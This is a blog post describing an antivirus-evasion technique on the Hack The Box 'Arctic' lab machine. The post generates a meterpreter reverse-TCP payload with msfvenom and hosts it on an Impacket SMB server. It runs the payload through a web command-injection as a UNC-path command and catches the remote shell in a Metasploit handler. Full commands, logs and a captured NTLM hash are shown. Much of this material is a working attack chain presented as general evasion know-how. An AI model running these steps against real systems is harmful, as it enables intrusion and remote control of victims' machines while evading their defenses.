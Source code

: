 ```yaml
---
layout: post
title: Bypass AV using Impacket SmbServer
categories:
  - Exploits
---
```



<br>This Topic is really interesting because many people don't know exactly how to bypass common AV in windows machine, if you look at most of the AV these days heuristic detection is off even in the enterprise/Companies because it takes a lot of CPU usage.

<br>And this is where we can utilise this Weak spot, Consider a scenario where we have a RCE, or OS-command Injection on the Web, for this I am taking the HTB Arctic machine, which fit's perfectly for this situation.

<br>Now as we know that machine have AV because of which we couldn't able to exeute a meterpreter payload, and later we created a Ecnrypted meterpreter with veil evasion.
<br>With this method we don't need to encode our meterpreter payload, we just need to set up our Impacket smb server and then run the command which will reqest our payload file and run that in the memory, because heuristic detection is off we can easily Bypass it.

<br>**Poc**
<br>if you have not Done the [Arctic](https://teckk2.github.io/writeup/2017/12/27/Arctic.html) machine, I recomend first follow the steps and reach the step where we have RCE on the web,

<br>First generate the Payload

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
  
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.*.*.10 LPORT=4455 -f exe > arctic.exe
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>No encoder or badchars specified, outputting raw payload
<br>Payload size: 341 bytes
<br>Final size of exe file: 73802 bytes
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>Now Download and Install the [Impacket Server](https://github.com/CoreSecurity/impacket).
<br>And then run it 

<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># impacket-smbserver teck /root/Desktop/
<br>Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies</p>

<p>[*] Config file parsed
<br>[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
<br>[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Config file parsed</p>
</div>
</font>
<br>In this I am using teck as the remote folder name to represent on the server and my file is in /root/Desktop/
<br>Now our SMB server is up and runnig now go to the web page and request for the file with the command **{/c \\10.*.*.10\teck\arctic.exe}**.
<br> ![SMB-Request](https://teckk2.github.io/assets/images/Arctic/17.PNG)
<br>Before you execute the command make sure to set up the meterpreter listner
<br>After executing wait for 30-40 Sec to get the request on the SMB server

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
  
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># impacket-smbserver teck /root/Desktop/
<br>Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies</p>

<p>[*] Config file parsed
<br>[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
<br>[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Incoming connection (10.10.10.11,51377)
<br>[*] AUTHENTICATE_MESSAGE (ARCTIC\tolis,ARCTIC)
<br>[*] User tolis\ARCTIC authenticated successfully
<br>[*] <br>tolis::ARCTIC:4141414141414141:2c61717958f1127eca09aa171e1c1d09:01010000000000000065347207f9d30170ad6d3e142ee07700000000010010007500<br>5300590056004f006700630067000200100061004c0076004b0078004c0050007a000300100075005300590056004f006700630067000400100061004c0076004b00<br>78004c0050007a00070008000065347207f9d301060004000200000008003000300000000000000000000000003000005f5d2c0dd8d042f2bceefe6e8fb2072d4dd0<br>38e23ce10f454d55eee31d91688c0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00<br>31003000000000000000000000000000<p>

</div>
</font>

<br>We got the request Now check our MSF

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
 
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">multi/handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">multi/handler</font>) > set LHOST 10.*.*.10
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">multi/handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">multi/handler</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.*.*.10:4455 
<br><font color="RoyalBlue">[*]</font> Sending stage (179779 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.*.*.10:4455 - 10.10.10.11:51379) at 2018-05-31 13:47:39 -0400</p>

<p>meterpreter > getuid 
<br>Server username: ARCTIC\tolis
<br>meterpreter > shell 
<br>Process 3848 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 6.1.7600]
<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.</p>

<p>C:\ColdFusion8\runtime\bin>whoami
<br>whoami
<br>arctic\tolis</p>

<p>C:\ColdFusion8\runtime\bin> </p>

</div>
</font>

<br>As you can see we successfully executed our meterpreter payload in the memory and bypass the AV and get shell.
<br>I learned This method from my mentor [KNX](https://twitter.com/ddarix), you can check the Orignal Video.
<iframe src="https://www.youtube.com/watch?v=BLBFKp20idE&t=125s" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>

<p class="message">
  ~ Hack the World and keep Loving Little Prince.
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>

